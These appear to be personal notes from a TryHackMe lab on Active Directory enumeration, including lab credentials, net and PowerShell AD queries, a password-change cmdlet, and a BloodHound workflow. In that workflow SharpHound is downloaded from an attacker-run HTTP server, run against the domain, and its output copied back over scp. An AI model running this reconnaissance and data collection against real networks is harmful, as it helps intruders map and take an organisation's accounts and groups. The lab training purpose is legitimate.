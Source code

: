 I connected the the adevnumeration ovpn file
and changed the dns to thmdc

after changing the /etc/resolv.conf

```
─$ sudo systemctl restart networking.service
                                                                             
┌──(kali㉿kali)-[~]
└─$ cat /etc/resolv.conf
# Generated by NetworkManager

search localdomain za.tryhackme.com
nameserver 10.200.49.101
nameserver 192.168.133.2

options timeout:1

options attempts:2

```

after that I got hte following credentials

`Your credentials have been generated: Username: rachel.dunn Password: Bmlj9838`

enumad - 10.50.47.172

`ssh za.tryhackme.com\\rachel.dunn@thmjmp1.za.tryhackme.com`


xfreerdp /d:za.tryhackme.com /u:'rachel.dunn' /p:'Bmlj9838' /v:thmjmp1.za.tryhackme.com /drive:.,kali-share +clipboard

Using microsoft management console to enumerate
I dont know how to enumerate through RSAT however enumerating through command prompt i need to see

`net user /domain`

`net user rachel.dunn /domain`

![](20230613220133.png)

net group /domain

net group "Tier 1 Admins" /domain

net accounts /domain

### USER ENUMERATION

get-ADuser
get-ADGroup
Get-ADGroupMember
Get-ADObject

A more generic search for any AD objects can be performed using the Get-ADObject cmdlet. For example, if we are looking for all AD objects that were changed after a specific date:

PS C:\> $ChangeDate = New-Object DateTime(2022, 02, 28, 12, 00, 00)
PS C:\> Get-ADObject -Filter 'whenChanged -gt $ChangeDate' -includeDeletedObjects -Server za.tryhackme.com

Get-ADObject -Filter 'badPwdCount -gt 0' -Server za.tryhackme.com

Get-ADDomain
et-ADAccountPassword -Identity gordon.stevens -Server za.tryhackme.com -OldPassword (ConvertTo-SecureString -AsPlaintext "old" -force) -NewPassword (ConvertTo-SecureString -AsPlainText "new" -Force)

 Get-ADUser -Identity Beth.Nolan -properties *

  CN=annette.manning,OU=Marketing,OU=People,DC=za,DC=tryhackme,DC=com

Get-ADGroup -Identity "Tier 2 Admins"
get-aduser -Identity beth.nolan -Properties * |Select-object 'Title'

### using bloodhound

Bloodhound is the software that runs locally on an attacker's machine. The attacker must run a "collector" on a target where it will enumerate lots of information about the domain. After the collector finishes running, it will output a series of .json files for import into the attacker's Bloodhound interface.

`wget https://github.com/BloodHoundAD/SharpHound/releases/download/v1.1.0/SharpHound-v1.1.0.zip`

sudo python3 -m http.server 80

on windows pc

```
cd ~/Documents

# Download the .zip file from Kali
Invoke-WebRequest http://kali-vpn-ip/SharpHound-v1.1.0.zip -OutFile SharpHound-v1.1
.0.zip

# Unzip the archive with PowerShell
Expand-Archive SharpHound-v1.1.0.zip
cd SharpHound-v1.1.0
```

.\SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs

scp username@za.tryhackme.com@thmjmp1.za.tryhackme.com:C:/Users/username/Documents/SharpHound-v1.1.0/20220805005305_BloodHound.zip .

neo4j console &
bloodhound &

    You can use the Search for a node... area to find specific users, groups, etc.
    You can click on specific properties of the object to graph things out (eg. group memberships)
    You can use the Analysis tab to run built-in queries (or write your own)
    Much, much more

`SharpHound.exe --CollectionMethods All --Domain za.tryhackme.com --ExcludeDCs`

4





